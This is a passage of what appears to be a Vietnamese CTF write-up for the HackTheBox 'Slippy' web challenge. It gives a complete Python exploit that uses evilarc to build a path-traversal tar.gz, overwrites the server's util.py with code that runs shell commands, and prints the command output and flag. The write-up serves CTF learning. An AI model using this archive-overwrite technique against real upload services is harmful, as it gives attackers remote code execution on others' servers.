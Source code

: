 # __Slippy__
</br> [source](https://github.com/magnetohvcs/CTF/raw/main/ctf-hackthebox/Uni%20CTF%202021%20Quals/src/web_slippy.zip)

 __tóm tắt__ : cố gắng upload file tar.gz để lấy flag, ta không thể dùng symlinks để cố gắng truy cập file flag mà ta sẽ dùng [công cụ này](https://github.com/ptoomey3/evilarc). 
 
 </br> Đầu tiên tải [evilary](https://github.com/ptoomey3/evilarc) và sau đó chạy đoạn mã này
 
 ```
 import requests, os, json, time
s = requests.session()

ip_port = '64.227.40.93:32528' # change this
url = 'http://%s/api/unslippy'%ip_port
util = '''
import functools, tarfile, tempfile, os
from application import main

generate = lambda x: os.urandom(x).hex()

def extract_from_archive(file):
    return [os.popen('ls -al && cat flag').read()]
''' 

open('util.py','w').write(util)
path_evilary = '~/evilarc/evilarc.py' # change  this
os.system('python2 %s -d 3 -o u -f flag.tar.gz util.py'%path_evilary)
s.post(url,files={'file':open('flag.tar.gz','rb')})
time.sleep(2)
res = s.post(url,files={'file':open('flag.tar.gz','rb')}).text
print(json.loads(res)['list'][0])

# HTB{i_slipped_my_way_to_rce}
```
__output__
```
Creating flag.tar.gz containing ../../../util.py
total 28
drwxr-xr-x    1 root     root          4096 Nov 16 23:46 .
drwxr-xr-x    1 root     root          4096 Nov 23 06:25 ..
drwxr-xr-x    1 root     root          4096 Nov 23 06:25 application
-rw-r--r--    1 root     root            29 Nov 16 10:45 flag
-rw-r--r--    1 root     root            98 Nov 15 13:22 run.py
HTB{i_slipped_my_way_to_rce}
```
